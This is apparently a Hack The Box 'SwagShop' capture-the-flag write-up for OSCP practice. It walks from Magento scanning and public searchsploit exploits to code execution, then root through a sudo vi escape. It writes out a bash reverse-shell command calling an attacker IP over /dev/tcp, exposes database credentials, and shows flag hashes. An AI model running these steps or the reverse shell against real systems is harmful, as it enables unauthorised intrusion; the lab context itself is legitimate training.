swagshop

nmap
nmap discovers
ssh running on port 22
and http running on port 80

a scan of all ports confirms no other services are running

http
navigating to swagshop's webpage shows an online shop run by the popular CMS (content management system) magento,
magento scanner OSI
since magneto is like the wordpress of market sales websites, lets see if there is a scanner we can find online similar to wpsmagescan is a github repo that can evaluate the security of a magento site, lets grab it


lets move it to our working directory and run it
magescan.phar usage

report
as the repo recommends, lets run it with the arguments:./magescan.phar scan:all http:10.10.10.140

first off we see the magento version is 1.9.0.0/1

we see there are some reachable url paths that the scan has found for us, lets look into them:


which means these url paths are reachable and worth checking out
app/etc/local.xml
index.php/rss/order/NEW/new
/shell
index.php/rss/order/NEW/new
Navigating to /index.php/rss/order/New/new shows an xml variant RSS that has an interesting link embedded in it


navigating to gives us

app/etc/local.xml


we see we have mysql creds here! lets save them
root
fMVWh7bDHpgZkyfqQXreTjU9
lets try logging in with the creds we found over at /index.php/admin/sales_order

no luck, this isn't the service anyway so this was an attempt to see if the box had reused creds
/shell
all these php files load the same message:

nothing here, lets move on...
searchsploit
lets searchsploit magento
since we know the version of magento is 1.9.0.0 / 1.9.0.1, these exploits stand out

we don't have working creds yet so lets try the bottom RCE
Remote Code execution credential injection
mirror the file to your working directory withsearchsploit -m /xml/webapps/37977.py

description:

perfect,
seems we have to update our target, and the public exploits default injected credentials for good practice

lets move the exploit into our directory

change the exploit name

Note: (the webserver is most likely misconfigured because wherever you navigate to any of the links on the page, each leads with index.php in the URL)
Ex:


 
so tweak the target to be: http://10.10.10.140/index.php/

and the username/pass to be w.e you want


run
time to runpython cred_inject.py

there are a bunch of invalid characters in the code that are mostly slashes, after removing each of them...

now lets try logging in:

we're logged in as admin!
initial foothold
now that we have working credentials, lets go back to the authenticated RCE exploit we found off searchsploitchecking out the exploit we see a couple of things:

lets rename it to

we see the config parameters but notice install_date, we're gonna have to grab the date from the /app/etc/local.xml file

the date from the xml file

so tweaking the config section of the code to look like this

the payload in the exploit is an object injection as ippsec mentioned, there's no need to understand it becfause it is beyond the scope of what the OSCP expects you to know but I may add that too the writeup later:

all we need to know is the usage:

running code_exec.py
ignore that code argument syntax, should look like this:
lets send this through the proxy and see whats going on to do that, uncomment the proxy line:

and fire up burp suite
burp/debug
lets start with a simple whoami cmd


we see the code isn't getting past the GET before erroring out, and looking at the exploit, the target variable doesn't add the correct exploit URL to the argument so we have to adjust our target parameter to the admin page

after that i got a strange error ippsec didn't come accross that showed more than one control was taking up my username variable

but after some research it turns out the username was being called twice

commenting this line out fixed the ambiguity error

looks like were going to have to debug the code from here, ippsec puts a break in the code using pdb


then when we run the code pdb.set_trace() lets us check what is stored in our tunnel variable


and there's nothing stored in our tunnel variable, but why? the code developer mentioned that the date in the local.xml file had to be as recent as possible, so maybe it's not recent enough?

the request code shows the period of time needs to be 7d within the date_issued variable, but what happens when we set it to 2years instead to extend the grace period?


tunnel now has an object attached to it and continuing the program gives us:
lets try whoami

www-data gets returned! we have code execution!
now run our reverse shell and...
python code_exec.py http://10.10.10.140/index.php/admin 'bash -i "bash -c >& /dev/tcp/10.10.14.62/9001 0>&1"'

a shell!!
priv esc
now that we have a foothold, lets see what kind of permissions we have
since we're allowed to run vi with root privileges on any file withint the /var/ww/html directory, lets create our own file and use vi to edit it and escape it to gain a shell with root privileges
GTFObins is a great resource for escaping binaries with misconfigured security settings

type :! to execute code through vi and then open bash from there and...


we are root!!
alt privesc
thanks to Msphr in the youtube comments we can also use '../' to navigate to any file on the box with visudo vi /var/www/html/../../../root/root.txt


user/root

a448877277e82f05e5ddf9f90aefbac8

gotta love the shirt
c2b087d66e14a652a3b86a130ac56721
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/